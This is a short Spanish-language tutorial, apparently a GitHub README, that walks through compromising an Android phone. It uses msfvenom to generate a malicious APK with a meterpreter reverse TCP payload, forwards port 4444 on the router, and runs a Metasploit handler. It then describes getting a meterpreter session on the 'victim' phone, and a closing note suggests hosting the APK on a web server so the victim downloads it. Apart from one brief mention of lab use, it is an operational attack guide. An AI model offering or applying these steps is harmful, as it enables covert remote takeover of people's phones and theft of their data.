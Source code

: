 # Msfvenom fuera de Red

MSFvenom es una herramienta del framework Metasploit utilizada para generar payloads maliciosos en distintos formatos. Su uso fuera de red (offline) es común en entornos controlados o de laboratorio donde no se cuenta con conexión a internet.

Primero iremos a nuestro kali linux y crearemos una aplicacion maliciosa con msfvenom y pondremos

Nuestra IP publica:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=< TU IP PUBLICA > LPORT=4444 -o
android.apk
```

Luego iremos a nuestro navegador y escribiremos la direccion de nuestro router, en la mayoria es
192.168.1.1 y para iniciar secion por defecto admin.

Luego buscaremos donde diga reenvio de puetos:


![Informatica](Puertos.jpg)

abriremos el puerto 4444 y pondremos la IP de nuestro Kali Linux.

Ahora abriremos una nueva terminal en Kali Linux y escribiremos msfconsole luego ingresaremos los
siguientes comandos:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST IP kali linux
set LPORT 4444
exploit
```


![Informatica](Exploit.jpg)

Luego instalaremos la aplicación maliciosa que creamos en nuestro celular víctima y la abriremos. Ahora iremos a nuestro Kali Linux y veremos que tendremos una sesión de meterpreter, ya estamos dentro de nuestro celular víctima. Para ayudarnos ingresaremos help y podemos ver una serie de información de lo que podemos hacer dentro de nuestro celular víctima.


![Informatica](Help.jpg)

**NOTA:** Pueden subir la aplicación maliciosa a un servidor web como apache2, y hacer que la victima descargue la aplicación desde el servidor web.